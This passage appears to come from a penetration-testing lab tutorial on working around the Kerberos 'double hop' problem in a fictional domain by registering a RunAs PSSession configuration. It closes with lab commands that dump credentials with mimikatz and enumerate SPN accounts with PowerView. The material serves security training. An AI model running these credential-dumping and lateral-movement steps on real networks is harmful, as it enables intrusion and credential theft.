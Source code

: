 One trick we can use here is registering a new session configuration using the [Register-PSSessionConfiguration](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/register-pssessionconfiguration?view=powershell-7.2) cmdlet.

Kerberos "Double Hop" Problem

```powershell-session
PS C:\htb> Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm

 WARNING: When RunAs is enabled in a Windows PowerShell session configuration, the Windows security model cannot enforce
 a security boundary between different user sessions that are created by using this endpoint. Verify that the Windows
PowerShell runspace configuration is restricted to only the necessary set of cmdlets and capabilities.
WARNING: Register-PSSessionConfiguration may need to restart the WinRM service if a configuration using this name has
recently been unregistered, certain system data structures may still be cached. In that case, a restart of WinRM may be
 required.
All WinRM sessions connected to Windows PowerShell session configurations, such as Microsoft.PowerShell and session
configurations that are created with the Register-PSSessionConfiguration cmdlet, are disconnected.

   WSManConfig: Microsoft.WSMan.Management\WSMan::localhost\Plugin

Type            Keys                                Name
----            ----                                ----
Container       {Name=backupadmsess}                backupadmsess
```

Once this is done, we need to restart the WinRM service by typing `Restart-Service WinRM` in our current PSSession. This will kick us out, so we'll start a new PSSession using the named registered session we set up previously.

After we start the session, we can see that the double hop problem has been eliminated, and if we type `klist`, we'll have the cached tickets necessary to reach the Domain Controller. This works because our local machine will now impersonate the remote machine in the context of the `backupadm` user and all requests from our local machine will be sent directly to the Domain Controller.

Kerberos "Double Hop" Problem

```powershell-session
PS C:\htb> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
[DEV01]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x2239ba

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
       Start Time: 6/28/2022 13:24:37 (local)
       End Time:   6/28/2022 23:24:37 (local)
       Renew Time: 7/5/2022 13:24:37 (local)
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x1 -> PRIMARY
       Kdc Called: DC01
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname
